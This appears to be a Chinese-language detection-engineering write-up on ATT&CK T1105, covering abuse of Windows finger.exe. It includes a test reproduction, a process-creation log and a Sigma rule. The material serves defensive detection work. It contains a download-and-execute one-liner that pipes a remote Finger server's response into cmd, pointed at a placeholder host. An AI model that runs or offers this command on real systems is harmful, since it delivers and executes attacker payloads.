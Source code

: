 # T1105-Win-入口工具转移-# Finger.exe(白名单)

## 来自ATT&CK的描述

攻击者可能会将工具或其他文件从外部系统转移到被攻击的环境中。可以通过命令和控制通道从外部攻击者控制的系统复制文件，用以将工具带入被攻击的网络中，或通过其他工具（如 FTP）的替代协议。 也可以使用 scp、rsync 和 sftp等本地工具在Mac和 Linux上复制文件。

## 测试案例

Finger.exe显示有关正在运行Finger服务或守护程序的指定远程计算机（通常是运行UNIX的计算机）上的一个或多个用户的信息。 远程计算机指定用户信息显示的格式和输出。 不带参数使用，手指显示帮助。

**路径:**

```yml
-   c:\windows\system32\finger.exe
-   c:\windows\syswow64\finger.exe
```

从远程Finger服务器下载有效载荷(Payload)。 此示例连接到“example.host.com”，询问用户“user”； 结果可能包含由cmd进程执行的恶意shellcode。

```yml
finger user@example.host.com | more +2 | cmd
```

用例：下载恶意负载
所需权限：用户
操作系统：Windows 8.1、Windows 10、Windows 11、Windows Server 2008、Windows Server 2008R2、Windows Server 2012、Windows Server 2012R2、Windows Server 2016、Windows Server 2019、Windows Server 2022

## 检测日志

Windows 安全日志

## 测试复现

Windows 10 测试

```yml
C:\Users\liyang>Finger.exe

显示与运行手指服务的指定系统上某个用户有关
的信息。输出因远程系统而异。

FINGER [-l] [user]@host [...]

  -l        以长列表格式显示信息。
  user      指定需要其信息的用户。省略 user 参数
            将显示与指定主机上所有用户有关的信息。
  @host     指定需要其用户信息的远程系统上的服务器。

C:\Users\liyang>finger user@example.host.com | more +2 | cmd
Microsoft Windows [版本 10.0.18363.418]
(c) 2019 Microsoft Corporation。保留所有权利。
```

## 测试留痕

```log
已创建新进程。

  

创建者主题:

安全 ID: DESKTOP-PT656L6\liyang

帐户名: liyang

帐户域: DESKTOP-PT656L6

登录 ID: 0x47126

  

目标主题:

安全 ID: NULL SID

帐户名: -

帐户域: -

登录 ID: 0x0

  

进程信息:

新进程 ID: 0x2c8

新进程名称: C:\Windows\System32\finger.exe

令牌提升类型: %%1938

强制性标签: Mandatory Label\Medium Mandatory Level

创建者进程 ID: 0xc78

创建者进程名称: C:\Windows\System32\cmd.exe

进程命令行: finger  user@example.host.com
```

## 检测方法/思路

参考Sigma官方规则:

```yml
title: Finger.exe Suspicious Invocation

id: af491bca-e752-4b44-9c86-df5680533dbc

description: Detects suspicious aged finger.exe tool execution often used in malware attacks nowadays

author: Florian Roth, omkar72, oscd.community

date: 2021/02/24

references:

- https://twitter.com/bigmacjpg/status/1349727699863011328?s=12

- https://app.any.run/tasks/40115012-a919-4208-bfed-41e82cb3dadf/

- http://hyp3rlinx.altervista.org/advisories/Windows_TCPIP_Finger_Command_C2_Channel_and_Bypassing_Security_Software.txt

tags:

- attack.command_and_control

- attack.t1105

logsource:

category: process_creation

product: windows

detection:

selection:

Image|endswith: '\finger.exe' #单纯的对进程名称进行检测

condition: selection

falsepositives:

- Admin activity (unclear what they do nowadays with finger.exe)

level: high
```

### 建议

从Sigma给出的规则来看，更多的是对进程和命令行参数进行监测，只要出现其中一个命令参数即告警。

## 参考推荐

MITRE-ATT&CK-T1105

<https://attack.mitre.org/techniques/T1105>

Finger.exe

<https://lolbas-project.github.io/lolbas/Binaries/Finger/>

Finger使用方法

<https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/ff961508(v=ws.11)>

Sigma: win_susp_finger_usage

<https://github.com/SigmaHQ/sigma/blob/08ca62cc8860f4660e945805d0dd615ce75258c1/rules/windows/process_creation/win_susp_finger_usage.yml>
